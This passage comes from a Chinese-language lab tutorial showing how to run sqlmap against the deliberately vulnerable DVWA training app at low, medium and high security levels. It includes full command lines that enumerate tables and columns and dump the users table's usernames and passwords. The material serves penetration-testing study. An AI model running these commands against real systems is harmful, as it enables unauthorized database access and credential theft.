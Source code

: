 ![20190502233455.png](https://raw.githubusercontent.com/handbye/images/master/20190502233455.png)

可看到sqlmap将所有可利用的sql注入类型全部展示了出来，并且将所有数据库也注入了出来。

```sql

sqlmap -u "http://192.168.1.2/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#"  --cookie "security=low; PHPSESSID=5bel9eq7h1tenbo6j15iu38ij5" -D dvwa --tables
```

![20190502234210.png](https://raw.githubusercontent.com/handbye/images/master/20190502234210.png)

```sql

sqlmap -u "http://192.168.1.2/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#"  --cookie "security=low; PHPSESSID=5bel9eq7h1tenbo6j15iu38ij5" -D dvwa -T users --column
```

![20190502234423.png](https://raw.githubusercontent.com/handbye/images/master/20190502234423.png)

```sql

sqlmap -u "http://192.168.1.2/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#"  --cookie "security=low; PHPSESSID=5bel9eq7h1tenbo6j15iu38ij5" -D dvwa -T users -C user,password --dump
```

![20190502235017.png](https://raw.githubusercontent.com/handbye/images/master/20190502235017.png)

### 使用sqlmap进行Medium等级的注入

```sql

sqlmap -u "http://192.168.1.2/dvwa/vulnerabilities/sqli"  --data "id=1&Submit=Submit" --cookie "security=medium; PHPSESSID=5bel9eq7h1tenbo6j15iu38ij5" --dbs
```

唯一不同的是需要使用--data执行post请求参数

### 使用sqlmap进行High等级的注入

```sql

sqlmap -u "http://192.168.1.2/dvwa/vulnerabilities/sqli"  --data "id=1&Submit=Submit" --cookie "security=high; PHPSESSID=5bel9eq7h1tenbo6j15iu38ij5" --second-url "http://192.168.1.2/dvwa/vulnerabilities/sqli/session-input.php" --dbs
```

此等级需要使用`--second-url`指定输入id的页面URL

## 参考文章：

- [https://www.freebuf.com/articles/web/120747.html](https://www.freebuf.com/articles/web/120747.html)

- [https://www.cnblogs.com/jojo-feed/p/10173241.html](https://www.cnblogs.com/jojo-feed/p/10173241.html)

- [https://www.jianshu.com/p/078df7a35671](https://www.jianshu.com/p/078df7a35671)
